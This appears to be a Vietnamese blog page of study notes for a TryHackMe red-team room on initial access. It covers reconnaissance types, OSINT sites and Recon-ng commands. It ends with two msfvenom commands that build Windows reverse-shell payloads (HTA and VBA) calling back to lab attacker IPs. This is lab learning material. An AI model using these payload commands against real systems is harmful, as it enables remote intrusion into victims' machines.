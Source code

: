 ```yaml
---
template: overrides/blog.html
icon: material/plus-circle
title: Init Access
description: >
  
search:
  exclude: true
hide:
  - feedback

links:
  - setup/setting-up-site-search.md#built-in-search-plugin
  - insiders/index.md#how-to-become-a-sponsor
tags:
  - THM-Room
---
```


# __Init Access__

---

Có một câu nói rất hay "Biết người biết ta, trăm trận trăm thắng". Đầu tiên khi ta bước vào giai đoạn tấn công một thứ gì đó thì việc hiểu về nó thực sự cần thiết. Bạn có thể tham khảo một vài kĩ thuật do thám từ vị trí của Redteam như sau:


Types of reconnaissance activities
WHOIS and DNS-based reconnaissance
Advanced searching
Searching by image
Google Hacking
Specialized search engines
Recon-ng
Maltego

## __Types of reconnaissance activities (các loại trinh sát)__

Trinh sát có thể chia làm 2 loại:

1. Trinh sát bị động: Có thể thực hiện bằng việc quan sát những gì có sẵn ở mục tiêu hoặc ở bên thứ ba cung cấp (dùng các kĩ thuật như OSINT để thu thập thông tin, ... whois, nslookup, dig, shodan.io, DNSDumpster,...)
2. Trinh sát chủ động: Cần chủ động, tương tác với mục tiêu nhằm xem phản ứng của nó (các công cụ được dùng như netcat, ping, traceroute, telnet, ...). Trong trinh sát chủ động, có thể chia làm 2 nhánh tiếp cận sau:

- Trinh sát từ bên ngoài: Được tiến hành trinh sát từ bên ngoài mạng nội bộ của mục tiêu.
- Trinh sát từ bên trong: Được tiến hành trinh sát từ bên trong mạng nội bộ của mục tiêu 



---

Recon-ng là một framework giúp tự động hóa công việc OSINT. Nó sử dụng các mô-đun từ nhiều tác giả khác nhau và cung cấp vô số chức năng. Một số mô-đun yêu cầu các phím để hoạt động; khóa cho phép mô-đun truy vấn API trực tuyến có liên quan. Trong nhiệm vụ này, chúng tôi sẽ minh họa bằng cách sử dụng Recon-ng trong thiết bị đầu cuối.


marketplace search KEYWORDđể tìm kiếm các mô-đun có sẵn với từ khóa .
marketplace info MODULEđể cung cấp thông tin về mô-đun được đề cập.
marketplace install MODULEđể cài đặt mô-đun được chỉ định vào Recon-ng.
marketplace remove MODULEđể gỡ cài đặt mô-đun được chỉ định.

tra ip ngược: https://viewdns.info/

https://search.censys.io/


https://www.google.com/advanced_search


reverse shell for window: msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.8.232.37 LPORT=443 -f hta-psh -o thm.hta


reverse shell for window with vba: msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.18.80.57 LPORT=443 -f vba 